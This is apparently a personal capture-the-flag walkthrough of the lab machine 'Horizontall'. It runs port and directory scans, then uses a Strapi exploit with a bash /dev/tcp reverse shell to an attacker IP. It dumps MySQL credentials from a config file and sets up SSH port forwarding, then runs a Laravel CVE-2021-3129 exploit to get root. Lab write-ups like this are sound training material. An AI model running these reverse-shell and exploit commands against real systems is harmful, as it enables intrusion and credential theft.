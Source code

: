 # Horizontall

- ip:10.10.11.105
- user : 22e9fce6322c2c3fc5f20157f7ad475d
- system : 2efb0184e3c2311136042f01aab55cd4

## nmap

- only 22,80 open

```
$sudo nmap -p- --min-rate 10000 -oA scans/nmap-allports_tcp 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 17:31 CET
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.105
Host is up (0.10s latency).
Not shown: 65433 closed tcp ports (reset), 100 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## feroxbuster

```
$feroxbuster -u http://horizontall.htb -x php,js,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://horizontall.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, js, html]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        7l       13w      194c http://horizontall.htb/js
301        7l       13w      194c http://horizontall.htb/css
301        7l       13w      194c http://horizontall.htb/img
200        1l       43w      901c http://horizontall.htb/index.html
[####################] - 1m    479984/479984  0s      found:4       errors:0      
[####################] - 1m    119996/119996  1046/s  http://horizontall.htb
[####################] - 1m    119996/119996  1047/s  http://horizontall.htb/js
[####################] - 1m    119996/119996  1045/s  http://horizontall.htb/css
[####################] - 1m    119996/119996  1045/s  http://horizontall.htb/img
```


## website

- add `10.10.11.105 horizontall.htb` to `/etc/hosts`

- on http://horizontall.htb link to app js in <head> 
  - ![](2021-11-23-18-26-03.png)

- inside app.c68eb462.js
  - ![](2021-11-23-18-37-22.png)

- add `10.10.11.105 api-prod.horizontall.htb` to `/etc/hosts`

- http://api-prod.horizontall.htb/reviews returns (first access)
```
[{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```

- /admin redirects to http://api-prod.horizontall.htb/admin/auth/login
  - ![strapi login](2021-11-23-18-49-07.png)
- strapi version `3.0.0-beta.17.4` 
  - ![](2021-11-23-18-56-06.png)
- https://www.exploit-db.com/exploits/50239
  - ![](2021-11-23-19-00-36.png)


- run exploit_50239.py
- listen `nc -nvlp 6969`
- reverse shell `bash -i >& /dev/tcp/10.10.14.134/6969 0>&1`


```
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
<[user flag]>
```

# mysql

```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

`db: strapi`  
`port: 3306`  
`user: developer`  
`pw: #J!:F9Zt2u`  

# ssh

`ssh -i key -L 8000:127.0.0.1:8000 strapi@horizontall.htb`
- where `key` is the private key (generate with `ssh-keygen`) and `key.pub` has been copied to remote machine `~/.ssh/authorized_keys`

- makes local services on the remote machine available on my machine via ssh portforwarding

- website on port 8000
  - ![](2021-11-23-20-00-42.png)

- Laravel v8
  - ![](2021-11-23-20-20-37.png)
- 2 potential exploits
  
- getting working code from https://github.com/nth347/CVE-2021-3129_exploit

```
$python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'id'
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Receiving objects: 100% (2673/2673), 400.37 KiB | 3.31 MiB/s, done.
Resolving deltas: 100% (1056/1056), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

```
$python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'cat /root/root.txt'
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

<[system flag]>

[i] Trying to clear logs
[+] Logs cleared
```